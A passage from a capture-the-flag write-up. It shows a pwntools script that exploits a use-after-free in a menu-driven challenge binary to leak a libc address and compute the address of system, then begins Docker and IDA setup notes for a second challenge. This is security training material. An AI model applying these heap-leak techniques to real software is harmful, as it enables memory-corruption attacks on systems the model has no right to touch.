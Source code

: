 ```python
    conn = process(binary)

libc = ELF('./libc.so.6')  

def free(given_index):
  conn.recvuntil(b'>')
  conn.sendline(b'1')
  conn.recvuntil(b'>')
  conn.sendline(given_index.encode())

def read(given_index):
  conn.recvuntil(b'>')
  conn.sendline(b'2')
  conn.recvuntil(b'>')
  conn.sendline(given_index.encode())
  conn.recvuntil(b':')
  leak = conn.recvline().strip()
  leak = int.from_bytes(leak, byteorder='little')  
  glibc_base = (leak -96) - 0x1ecb80
  libc.address = glibc_base
  system = libc.symbols.system
  guess_system(str(system))
  conn.recvline()

def allocate(given_index):
  conn.recvuntil(b'>')
  conn.sendline(b'3')
  
  conn.recvuntil(b'>')
  conn.sendline(given_index.encode())

def guess_system(given_address):
  conn.recvuntil(b'>')
  conn.sendline(b'4')

  conn.recvuntil(b'>')
  conn.sendline(given_address.encode())

target_index = '126'

free(target_index)
allocate(target_index)
read(target_index)
```
#### Get the Flag
![[Pasted image 20241119173432.png]]
### Biiiiig Message Server
#### Setup Docker container
Setup directory to port over to interactive later
![[Pasted image 20241119173119.png]]
Once the files are in our directory, we can build the container from `Dockerfile`
```bash
docker build -t ubuntu2004 .  
```
And then launch an interactive terminal session within the container we just built
```bash
docker run --rm -it -v `pwd`:/chal ubuntu2004
```
#### Static Analysis in IDA
![[Pasted image 20241119175304.png]]